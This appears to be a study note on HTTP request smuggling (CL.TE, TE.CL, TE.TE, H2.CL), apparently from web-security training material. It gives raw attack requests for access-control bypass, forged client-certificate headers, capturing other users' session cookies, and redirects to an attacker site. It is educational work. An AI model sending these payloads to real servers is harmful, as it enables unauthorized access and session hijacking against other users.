


## What is HTTP request smuggling?

- technique for interfering with the way a web stie processes sequences of HTTP requests that are received from one or more users
- Request smuggling vulnerabilities are often critical in nature, allowing an attacker to
  - bypass security controls
  - gain unauthorized access to sensitive data, and
  - directly compromise other application users

## What happens in an HTTP request smuggling attack?

- For most of today's web application, users send requests to a front-end server (load balancer or reverse proxy) and this server forwards requests to one or more back-end servers
- it typically sends several requests over the same back-end network connection


- HTTP requests are sent on after another, and the receiving server parses the HTTP request headers to determine where one request ends and the next one begins
- In this situation, it is crucial that the front-end and back-end systems agree about the boundaries between requests
- an attacker might be able to send an ambiguous request that gets interpreted differently by the front-end and back-end systems


## How do HTTP request smuggling vulnerabilities arise?

- the HTTP specification provides two different ways to specify where a request ends: the `Content-Length` header and the `Transfer-Encoding` header
- `Content-Length` - specifies the length of the message body in bytes
- `Transfer-Encoding` - specifies that the message body uses chunked encoding; message body contains one or more chunks of data; each chunk consists of the chunk size in bytes (in hexadecimal) followed by a newline, followed by the chunk contents
- since the HTTP specification provides two different methods for specifying the length of HTTP messages, it is possible for a single message to use both methods at once, such that they conflict with each other
- if both headers are present, `Content-Length` should be ignored (only a single server is in play and not for two or more servers are chained together)
- if the front-end and back-end servers behave differently for the `Transfer-Encoding`, then they might disagree about the boundaries between successive requests, leading to request smuggling vulnerabilities

## How to perform an attack?

- placing both the `Content-Length` and `Transfer-Encoding` headers into a single HTTP request and manipulating these so that the front-end and back-end servers process the request differently
- it depends on the behavior of the two servers:
  - **CL.TE** - front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header
  - **TE.CL** - front-end uses `Transfer-Encoding` and back-end uses `Content-Length`
  - **TE.TE** - both front and back-end support `Transfer-Encoding` but one of the servers can be induced not to process it by obfuscating the header in some way

### CL.TE vulnerabilities

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

- Front-end server processes the `Content-Length` header and request body has 13 bytes long, up to the end of SMUGGLED
- Back-end server processes the `Transfer-Encoding` which is chunked and processes the first chunk which is stated to be zero length, and treated as terminating the request
- So, the following bytes, SMUGGLED are left unprocessed and the back-end server will treat these as being the start of next request in the sequence

### TE.CL vulnerabilities

- front-end - `Transfer-Encoding`
- back-end - `Content-Length`

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

- front-end server processes the `Transfer-Encoding` header, and treat the message body as using chunked encoding. It processes the first chunk which is stated as 8 bytes long, up to the end of SMUGGLED and it processes the second chunk, which is stated to be zero length and treated as terminating the request. Then forwarded to the back-end server

- back-end server processes the `Content-Length` header and determines that the request body as 3 bytes long, up to the end of 8. The following bytes, starting with `SMUGGLED` are left unprocessed and the back-end server will treat these as being the start of the next request in the sequence.

### TE.TE behavior: obfuscating the TE header

- both front and back-end support `Transfer-Encoding`
- but one of the servers can be induced not to process it by obfuscating the header
- many ways to obfuscate the `Transfer-Encoding` header
- eg

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding: [tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

## How to identify HTTP request smuggling

### Using timing techniques

#### Finding CL.TE vulnerabilities

- if the application is vulnerable to the CL.TE variant of request smuggling, sending a request like the following will often cause a time delay:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

- front-end uses `Content-Length`, it will forward only part of this request, omitting X
- back-end uses `Transfer-Encoding`, processes the first chunk, and waits for the next chunk to arrive and will cause an observable time delay

#### Findng TE.CL vulnerabilities

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

- front-end uses `Transfer-Encoding`, it will forward only part of this request, omitting the X
- back-end uses `Content-Length`, expect more content in the message body and will cause time delay

### Confirming HTTP request smuggling vulnerabilities using differential responses

- sending two requests to the application in quick succession:

  - attack request that is designed to interfere with the processing of the next request
  - normal request

- if the response to the normal request contains the expected interference, the vulnerability is confirmed.

eg - normal request looks like:

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

- This request normally receives an HTTP response with status code 200, containing some search results
- attack request depends on variant of whether CL.TE vs TE.CL

#### Confirming CL.TE

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

- if the attack is successful, the last two lines of the request are treated by the back-end server as belonging to the next request that is received and cause the subsequent normal request to look like this

```
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

- the request contains an invalid URL, the server will response with status code 404

#### Confirming TE.CL

- attack request like this:

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0


```

- if the attack is successful, everything from `GET /404` onwards is treated by the back-end server as belonging to the next request that is received.

```
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0
```

> attack request and normal request should be sent to the server using different network connection. Sending both from the same connection won't prove that the vulnerability exists
> attack request and normal request should use the same URL and parameter names
> should send the normal request immediately after the attack request

## Exploiting HTTP request smuggling vulnerabilities

### Bypass front-end security controls

- suppose an application uses the front-end server to implement access control restrictions, only forwarding requests if the user is authorized to access the requested URL
- back-end server honors every request without further checking
- suppose current user is permitted to access `/home` but not `/admin`
- this can bypass by using the following smuggling attack

```
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: x
```

### Revealing front-end request rewriting

- before sending to backend server, front-end server adds some additional request headers. eg.
  - terminate the TLS connection and add some headers describing the protocol and ciphers that were used
  - add an `X-Forwarded-For` header containing the user's IP address
  - determine the user's ID based on their session token and add a header identifying the user
  - add some sensitive information that is of interest for other attacks
- so, in some situations, if your smuggled requests are missing some headers that are normally added by the front-end server, the back-end server might not process the requests in normal way and result in smuggled requests failing to have the intended effects
- to reveal how the front-end server is rewriting requests

  - Find a POST request that reflects the value of a request parameter into the application's response
  - shuffle the parameters so that the reflected parameter appears last in the message body
  - smuggle this request to the back-end server, followed directly by a normal request whose rewritten from you want to reveal

- eg - an application that reflects the value of the email parameter

```
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

- that results in

```html
<input id="email" value="wiener@normal-user.net" type="text" />
```

- for this application, the following request smuggling attack can be used to reveal the rewriting that is performed by the front-end server

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=
```

- this requests will be written by the front-end server to include the additional headers, and then the back-end server will process the smuggled request and reflect this value back in the response to the second request

```html
<input
  id="email"
  value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
..."
/>
```

- for Content-Length header in smuggled request, it should be set a bit bigger than the submitted request and gradually increase the value to retrieve more information

- if it is known how the front-end server is rewriting requests, it can be applied the necessary rewrites to the smuggled requests, to ensure they are processed in the intended way by the back-end server

### Bypassing client authentication

- as part of TLS handshake, servers authenticate themselves with the client (browser) by providing a certificate that contains common name (CN) which should match their registered hostname
- client can use this to verify that they're talking to a legitimate server belonging to the expected domain
- CN is often a username which can be used in the back-end application logic as part of an access control mechanism
- eg -

```
GET /admin HTTP/1.1
Host: normal-website.com
X-SSL-CLIENT-CN: carlos
```

- they are completely hidden from users
- you're able to send the right combination of headers and values and can bypass access controls

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```

### Capturing other user's requests

- if the application contains any kind of functionality that allows textual data to be stored and retrieved, HTTP request smuggling can be used to capture the contents of other users' requests which include session tokens, enabling session hijacking attacks, or other sensitive data submitted by the user
- an application uses the following request to submit a blog post comment which will be stored and displayed on the blog:

```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```

- to perform HTTP request smuggling to the data storage request to the back-end server

```
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 324

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

- when another user's request is processed by the back-end server, it will be appended to the smuggled request, with the result that the user's request gets stored including victim user's session cookie and any other sensitive data

### Turn an on-site redirect into an open redirect

- default behavior of Apache and IIS web servers, where a request for a folder without a trailing slash receives a redirect to the same folder including the trailing slash

```
GET /home HTTP/1.1
Host: normal-website.com
====
HTTP/1.1 301 Move Permanently
Location: https://normal-website.com/home/
```

- with request smuggling attack to redirect other users to an external domain
- eg

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

- the smuggled request will trigger a redirect to the attacker's website, which will affect the next user's request that is processed by the back-end server

#### Turning root-relative redirects into open directs

- some servers redirect that use the path to construct a root-relative URL for the Location header

```
GET /example HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: /example/
```

- to exploit

```
GET //attacker-website.com/example HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Move Permanently
Location: //attacker-website.com/example/
```

### Perform web cache poisoning

> Leave for later

## HTTP/2 Request Smuggling

- Request smuggling is fundamentally about exploiting discrepancies between how different servers interpret the length of a request
- HTTP/2 messages are sent over the wire as a series of separate "frames"
- each frame is preceded by an explicit length field which tells the server exactly how many bytes to read in and the length of the request is the sum of its frame lengths
- vulnerabilities occur due to HTTP/2 downgrading



- front-end servers rewrite each incoming HTTP/2 request using HTTP/1 syntax and downgraded request is forwarded to the back-end server and vice versa



### H2.CL vulnerabilities

- front-end use HTTP/2 length to determine where the request ends but the HTTP/1 back-end has to refer to the Content-Length header derived from the injected one, resulting in a desync
- HTTP/2 requests don't have to specify their length explicitly in a header
- during downgrading, front-end servers often add an HTTP/1 `Content-Length` header, deriving its value using HTTP/2 build-in length mechanism and some front-end servers will reuse this value in the resulting HTTP/1 request
- any `Content-Length` header in a HTTP/2 request must match the length calculated using the built-in mechanism but this isn't always validated properly before downgrading; it may be possible to smuggle requests by injecting a misleading Content-Length header

- eg

  - Front-end (HTTP/2)

  ```
  :method         POST
  :path           /example
  :authority      vulnerable-website.com
  content-type    application/x-www-form-urlencoded
  content-length  0
  GET /admin HTTP/1.1
  Host: vulnerable-website.com
  Content-Length: 10

  x=1
  ```

  - Back-end(HTTP/1)

  ```
  POST /example HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 0

  GET /admin HTTP/1.1
  Host: vulnerable-website.com
  Content-Length: 0

  x=1
  ```
